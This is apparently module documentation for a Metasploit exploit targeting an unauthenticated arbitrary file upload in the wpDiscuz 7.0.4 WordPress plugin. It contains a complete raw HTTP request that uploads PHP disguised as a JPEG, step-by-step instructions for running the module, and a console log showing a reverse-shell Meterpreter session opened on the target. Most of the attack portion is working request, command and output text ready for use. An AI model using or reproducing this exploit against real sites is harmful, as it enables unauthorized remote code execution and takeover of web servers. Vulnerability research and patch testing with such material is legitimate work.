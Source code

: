 This module exploits an arbitrary file upload in the WordPress wpDiscuz plugin
version 7.0.4. This flaw gave unauthenticated attackers the ability to upload arbitrary files,
including PHP files, and achieve remote code execution on a vulnerable site’s server.

## Proof of Concept

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: URL
Content-Length: 774
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUGWBOKSwsalnzhha
Origin: http://URL
Referer: http://URL
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: 
Connection: close

------WebKitFormBoundaryUGWBOKSwsalnzhha
Content-Disposition: form-data; name="action"

wmuUploadFiles
------WebKitFormBoundaryUGWBOKSwsalnzhha
Content-Disposition: form-data; name="wmu_nonce"

aede3ab0b2
------WebKitFormBoundaryUGWBOKSwsalnzhha
Content-Disposition: form-data; name="wmuAttachmentsData"

undefined
------WebKitFormBoundaryUGWBOKSwsalnzhha
Content-Disposition: form-data; name="wmu_files[0]"; filename="hello.php"
Content-Type: image/jpeg

ÿØÿájExifMM*i>¨ÀÿàJFIFÿÛC

<?php phpinfo();?>
------WebKitFormBoundaryUGWBOKSwsalnzhha
Content-Disposition: form-data; name="postId"

393
------WebKitFormBoundaryUGWBOKSwsalnzhha--

```

More details can be found on [WPSCAN Blog](https://wpscan.com/vulnerability/10333).

## Verification Steps

Confirm that functionality works:
1. Download `wp_wpdiscuz_unauthenticated_file_upload.rb`
1. Move `wp_wpdiscuz_unauthenticated_file_upload.rb` to `/usr/share/metasploit-framework/modules/exploits (Kali Linux)`
1. Start `msfconsole`
1. `use exploit/wp_wpdiscuz_unauthenticated_file_upload`
1. Set the `RHOST`
1. Set the `BLOGPATH` (Links to the post)
1. Set `LHOST` and `LPORT`
1. Run the exploit: `run`
1. Confirm you have now a meterpreter session


## Scenarios

### Ubuntu 18.04 running WordPress 4.9.8

[`Victim: http://127.0.0.1:8080/blogs`]

[`Link to the port http://127.0.0.1:8080/blogs/index.php/2020/12/22/firt-post/`]

```
msf5 > use exploit/wp_wpdiscuz_unauthenticated_file_upload.rb
msf5 exploit(wp_wpdiscuz_unauthenticated_file_upload) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(wp_wpdiscuz_unauthenticated_file_upload) > set blogpath /index.php/2020/12/22/firt-post/
blogpath => /index.php/2020/12/22/firt-post/
msf5 exploit(wp_wpdiscuz_unauthenticated_file_upload) > set TARGETURI blogs
TARGETURI => blogs
msf5 exploit(wp_wpdiscuz_unauthenticated_file_upload) > check
[*] 127.0.0.1:8080 - The target appears to be vulnerable.
msf5 exploit(wp_wpdiscuz_unauthenticated_file_upload) > run

[*] Started reverse TCP handler on 0.0.0.0:8888 
[+] Payload uploaded as kUBJC.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 13.250.118.98
[*] Meterpreter session 1 opened (10.148.0.11:8888 -> 13.250.118.98:54552) at 2020-12-25 01:34:15 +0000
[!] This exploit may require manual cleanup of 'kUBJC.php' on the target

meterpreter > sysinfo
Computer    : ip-172-31-42-10
OS          : Linux ip-172-31-42-10 5.4.0-1029-aws #30-Ubuntu SMP Tue Oct 20 10:06:38 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > 

```
